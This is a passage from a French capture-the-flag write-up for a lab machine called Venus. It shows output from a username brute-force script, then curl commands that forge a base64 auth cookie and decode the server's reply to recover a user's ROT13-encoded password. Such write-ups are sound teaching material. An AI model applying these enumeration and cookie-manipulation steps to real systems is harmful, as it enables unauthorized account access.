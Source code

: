 ```python
            print(response.status_code)
            print(username)
            print(response.content)
            sess = requests.session()
            print("=" * 30)
```

J'avais une wordlist `english` provenant certainement de [Packet Storm](https://packetstormsecurity.com/) mais elle n'a trouvé que les utilisateurs `guest` et `venus`. Avec une wordlist plus grande j'ai trouvé le compte qu'il fallait :

```console
$ python3 brute_users.py fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-words-lowercase.txt 
==============================
200
guest
b'<html>\n<head>\n<title>Venus Monitoring</title>\n<style>\n.aligncenter {\n    text-align: center;\n}\n</style>\n</head>\n<body>\n<h1 class="aligncenter"> Venus Monitoring </h1>\n<p class="aligncenter">\n\n<img src="/static/venus1.jpg" alt="Pictures of Venus" width="400" height="400">\n</p>\n<br />\n<br />\n<h2>Current status:</h2>\nTemperature: 464C\n<br />\nSurface pressure: 93 bar\n<br />\nAtmospheric composition: 96.5% carbon dioxide, 3.5% nitrogen\n</body>\n</html>\n'
==============================
==============================
200
venus
b'<html>\n<head>\n<title>Venus Monitoring</title>\n<style>\n.aligncenter {\n    text-align: center;\n}\n</style>\n</head>\n<body>\n<h1 class="aligncenter"> Venus Monitoring </h1>\n<p class="aligncenter">\n\n<img src="/static/venus1.jpg" alt="Pictures of Venus" width="400" height="400">\n</p>\n<br />\n<br />\n<h2>Current status:</h2>\nTemperature: 464C\n<br />\nSurface pressure: 93 bar\n<br />\nAtmospheric composition: 96.5% carbon dioxide, 3.5% nitrogen\n</body>\n</html>\n'
==============================
==============================
200
magellan
b'<html>\n<head>\n<title>Venus Monitoring</title>\n<style>\n.aligncenter {\n    text-align: center;\n}\n</style>\n</head>\n<body>\n<h1 class="aligncenter"> Venus Monitoring </h1>\n<p class="aligncenter">\n\n<img src="/static/venus1.jpg" alt="Pictures of Venus" width="400" height="400">\n</p>\n<br />\n<br />\n<h2>Current status:</h2>\nTemperature: 464C\n<br />\nSurface pressure: 93 bar\n<br />\nAtmospheric composition: 96.5% carbon dioxide, 3.5% nitrogen\n</body>\n</html>\n'
==============================
```

Malheureusement la page sur laquelle tombe l'utilisateur `magellan` ets la même que les autres.

Il fallait être attentif au cookie retourné par le serveur lors de l'authentification qui est différent de celui que l'on soumet :

```console
$ echo -n magellan | base64 
bWFnZWxsYW4=
$ curl -I -H 'Cookie: auth="bWFnZWxsYW4=";' http://192.168.56.177:8080/
HTTP/1.1 200 OK
Date: Thu, 15 Apr 2023 15:40:55 GMT
Server: WSGIServer/0.2 CPython/3.9.5
Content-Type: text/html; charset=utf-8
X-Frame-Options: DENY
Content-Length: 450
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Set-Cookie:  auth="bWFnZWxsYW46aXJhaGZ2bmF0cmJ5YnRsMTk4OQ=="; Path=/
$ echo bWFnZWxsYW46aXJhaGZ2bmF0cmJ5YnRsMTk4OQ== | base64 -d
magellan:irahfvnatrbybtl1989
$ echo irahfvnatrbybtl1989 | tr 'n-za-mN-ZA-M' 'a-zA-Z'
venusiangeology1989
```